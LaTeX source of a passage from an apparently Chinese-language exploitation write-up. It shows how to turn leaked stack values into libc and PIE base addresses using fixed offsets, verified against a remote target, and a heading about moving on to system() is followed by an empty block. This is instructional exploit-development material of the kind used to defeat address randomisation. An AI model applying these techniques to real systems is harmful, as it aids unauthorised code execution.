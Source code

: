 \documentclass[10pt,a4paper]{article}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BaseNTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\renewenvironment{Shaded}{%
  \def\FrameCommand{\fboxsep=3.2pt\colorbox{shadecolor}}%
  \MakeFramed{\advance\hsize-\width\FrameRestore\small}%
}{%
  \endMakeFramed
}
\begin{document}
\texttt{call\ \allowbreak{}rax} 把\textbf{下一行（0x2a1ca）}
推進堆疊當返回位址；\texttt{main} 一執行 \texttt{ret} 就回到這裡。 →
\textbf{\texttt{0x2a1ca} 是這份 libc
專屬的常數}，跨多次執行都一樣（已驗證）。

\paragraph{換算式}\label{ux63dbux7b97ux5f0f}

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{LIBC\_RET\_OFFSET }\OperatorTok{=} \BaseNTok{0x2a1ca}     \CommentTok{\# \_\_libc\_start\_call\_main 裡 call main 的下一行}
\NormalTok{MAIN\_OFFSET     }\OperatorTok{=} \BaseNTok{0x11c9}      \CommentTok{\# \_start 的 lea rdi,[rip+0xca] 算出來的 main}

\NormalTok{libc\_base }\OperatorTok{=}\NormalTok{ leak\_43 }\OperatorTok{{-}}\NormalTok{ LIBC\_RET\_OFFSET    }\CommentTok{\# 0x74c6d28001ca {-} 0x2a1ca = 0x74c6d27d6000}
\NormalTok{pie\_base  }\OperatorTok{=}\NormalTok{ leak\_47 }\OperatorTok{{-}}\NormalTok{ MAIN\_OFFSET        }\CommentTok{\# 0x5deeff4bb1c9 {-} 0x11c9  = 0x5deeff4ba000}
\end{Highlighting}
\end{Shaded}

驗算（遠端）：

\begin{Verbatim}[breaklines=true,breakanywhere=true,breakautoindent=false,fontsize=\fontsize{7.0}{9.5}\selectfont]
0x74c6d28001ca - 0x2a1ca = 0x74c6d27d6000   ← 頁對齊（結尾 000）✓
0x5deeff4bb1c9 - 0x11c9  = 0x5deeff4ba000   ← 頁對齊 ✓
\end{Verbatim}

\textbf{兩個 base 都必須是 0x1000
的倍數}，這是驗證算式有沒有錯的最好方法（程式裡有 assert 檢查）。

\paragraph{\texorpdfstring{從 libc base 到
\texttt{system}}{從 libc base 到 system}}\label{ux5f9e-libc-base-ux5230-system}

\begin{Shaded}
\end{Shaded}
\end{document}
